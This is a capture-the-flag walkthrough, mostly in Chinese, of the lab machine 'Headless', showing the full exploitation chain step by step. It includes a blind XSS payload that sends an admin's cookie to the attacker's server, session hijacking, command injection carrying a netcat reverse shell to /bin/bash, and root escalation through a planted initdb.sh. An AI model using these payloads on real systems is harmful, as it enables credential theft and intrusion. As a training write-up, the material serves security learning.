










## Headless

```
[★]$ nmap -sC -sV 10.129.159.167
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-21 02:57 CDT
Nmap scan report for 10.129.159.167
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sun, 21 Sep 2025 07:57:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
 <SNIP>
|_    </html>
```
#### 访问浏览器5000端口

#### 点击这个按钮将我们重定向到一个HTML表单来联系技术支持。

### Cross-Site Scripting (XSS) 跨站点脚本（XSS）
#### 查看表单，我们可以向工作人员发送消息，所以让我们看看这个特性是否容易受到攻击。我们可以首先尝试一个简单的XSS有效负载来测试是否有任何反射。
```
<script>alert(1)</script>
```

#### 点击Submit，返回

#### 我们看到请求的标题显示在页面上，而表单的内容却没有。因此,我们可以尝试将JavaScript注入到请求头中。要做到这一点，我们使用web代理，如BurpSuite
#### 首先，我们拦截包含XSS有效负载的表单的提交请求。
```
POST /support HTTP/1.1
Host: 10.129.159.167:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.159.167:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://10.129.159.167:5000
DNT: 1
Connection: keep-alive
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

fname=test&lname=test&email=test%40headless.htb&phone=0700000000&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
#### 我们继续更改User-Agent标头，注入一个<script>标记。如果成功，这个有效载荷将显示带有数字1的警告框，确认存在XSS漏洞。
#### 在Raw修改，浏览器先恢复上网，然后Forword


#### 点击OK 

### 存储XSS指的是一种将恶意脚本注入web应用程序的漏洞存储在服务器上。不像反射式XSS，它要求受害者与特制的链接进行交互包含有效负载，存储的XSS有效负载存储在服务器端，并在用户访问时执行访问易受攻击页面。
#### 阅读页面上的警告，我们可以看到管理员将审查报告。这意味着我们可以尝试盲目的XSS攻击来窃取他们的cookie。
#### 拦截
```
<script>alert(1)</script>
```
### 我们启动一个Python服务器来监听传入的连接。该命令启动一个简单的HTTP服务器本地机器上的端口5000，它侦听任何传入的HTTP请求。
```
python3 -m http.server 5000
```
#### To do so, we use the following payload:
```
<script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);</script>
```
#### 这个脚本在JavaScript中创建了一个新的Image对象，该对象静默地向我们的服务器发送一个HTTP GET请求使用Base64编码的受害者cookie作为查询参数。
```
POST /support HTTP/1.1
Host: 10.129.159.167:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.149:5000/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.159.167:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://10.129.159.167:5000
DNT: 1
Connection: keep-alive
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

fname=test&lname=test&email=test%40headless.htb&phone=0700000000&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
```
[★]$ python3 -m  http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.14.149 - - [21/Sep/2025 03:42:09] "GET /?cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.129.159.167 - - [21/Sep/2025 03:42:25] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
#### 第一个cookie来自我们的会话，因此我们主要对第二个cookie感兴趣，它被编码为Base64。为了从中提取信息，我们对其进行解码
```
[★]$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d 
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
#### 我们已经成功地窃取了管理员的cookie，所以我们现在继续模糊应用程序以识别其他我们可以利用它的页面。
```
[★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://10.129.159.167:5000/FFUZ -ic -t 100


[0:00:0support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 20ms]
[0:dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 118ms]
```
#### -ic：忽略单词列表注释。
#### -t 100：为并发请求指定100个线程。
#### 该工具的输出显示了一个/dashboard端点，我们无法访问：

### Foothold 立足
#### 我们继续在浏览器中设置cookie。在Firefox中，我们右键单击浏览器窗口并选择检查元素，然后导航到Storage选项卡。从那里，我们可以修改cookie值来匹配我们偷的那个
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
#### 我们刷新页面，成功获得对管理仪表板的访问权。

#### 在应用程序上，我们可以选择生成运行状况报告。按下该按钮将返回一条消息说明系统已启动并运行。
#### 我们通过BurpSuite拦截请求，以便更好地了解幕后发生的事情：
```
POST /dashboard HTTP/1.1
Host: 10.129.159.167:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.159.167:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.159.167:5000
DNT: 1
Connection: keep-alive
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

date=2023-09-15
```
#### 我们正在处理一个POST请求，其中包含一个日期参数。在这个阶段，我们可以检查通过向日期追加一些数据并观察服务器的响应来执行命令注入。我们发出Forward以下请求：
```
POST /dashboard HTTP/1.1
Host: 10.129.159.167:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.159.167:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.159.167:5000
DNT: 1
Connection: keep-alive
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

date=2023-09-15;id
```
#### 通过添加；id到POST请求中的date参数，我们试图注入id命令到服务器端处理管道中。如果成功并且服务器执行基于用户的命令输入没有经过适当的验证，来自服务器的响应可能包括id的输出命令，表示该应用存在命令注入漏洞。在转发请求后，我们观察到注入工作了，因为网页返回的输出id命令。

#### 知道了我们可以在目标上执行任意命令后，我们现在可以利用它来实现交互式shell。下面的命令在端口4444上启动一个Netcat连接到我们的IP地址10.10.14.41。在连接时执行/bin/bash，有效地提供一个反向shell。
```
nc 10.10.14.41 4444 -e /bin/bash
```
#### 首先，我们将Netcat设置为侦听端口4444上的任何传入连接。
```
nc -lnvp 4444
```
#### 然后，我们发送以下请求，将反向shell命令注入到date参数中。我们确保将空格替换为+符号，以便正确解释请求：
```
POST /dashboard HTTP/1.1
Host: 10.129.159.167:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.159.167:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.159.167:5000
DNT: 1
Connection: keep-alive
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

date=2023-09-15;+nc+10.10.14.149+4444+-e+/bin/bash
```
```
[★]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.159.167] 50320
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.

dvir@headless:~/app$ cat /home/dvir/user.txt
```
### Privilege Escalation 特权升级
#### 通过枚举目标文件系统，我们看到我们的用户有邮件。查看/var/mail/dvir，我们看到了一条有趣的消息。该消息提供了关于新对象的更新系统检查脚本在服务器端实现
```
dvir@headless:/var/mail$ cat /var/mail/dvir
cat /var/mail/dvir
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```
#### 一个重要的更新关于我们的服务器。为了应对最近的兼容性和崩溃问题，我们引入了一个新的系统检查脚本
```
vir@headless:/var/mail$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
#### 我们阅读脚本来理解它的作用：
```
dvir@headless:/var/mail$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi
//我们可以看到上面的脚本/usr/bin/syscheck执行了几个系统检查和维护任务。首先，它验证它是否以root权限运行，如果不是，则退出

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
//然后，它以人类可读的形式标识并显示内核vmlinuz*的最后修改时间格式。

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
//之后，它检索并显示根文件系统上的可用磁盘空间

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
//该脚本还报告系统的平均负载。此外，它还检查数据库服务是否名为Initdb.sh正在运行；如果没有，它会静默启动。

exit 0
```
#### 最后，脚本退出，状态为0，表示执行成功。有趣的部分是数据库服务检查。如果没有名为“initdb.sh”的进程正在运行，则脚本尝试在不指定绝对路径的情况下执行它。这意味着脚本首先查找当前工作目录下的initdb.sh。因为我们对某些目录有写权限，我们可以在其中一个位置创建一个名为initdb.sh的恶意脚本。当脚本运行时，它会在CWD中找到我们的恶意脚本并以root权限执行它。为了利用这一点，我们首先在/tmp文件夹中创建一个脚本，并将其命名为initdb.sh。脚本将生成一个Bash shell执行时。
```
dvir@headless:~$ cd /tmp
dvir@headless:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh
```
#### 现在我们确保脚本具有执行权限：syscheck调用其他脚本来收集输出。使用相对路径调用的脚本名称是:
```
dvir@headless:/tmp$ chmod +x /tmp/initdb.sh
```
#### 接下来，我们使用sudo执行syscheck脚本以获得root shell访问权限：
```
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.01, 0.02, 0.01
Database service is not running. Starting it...
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
```
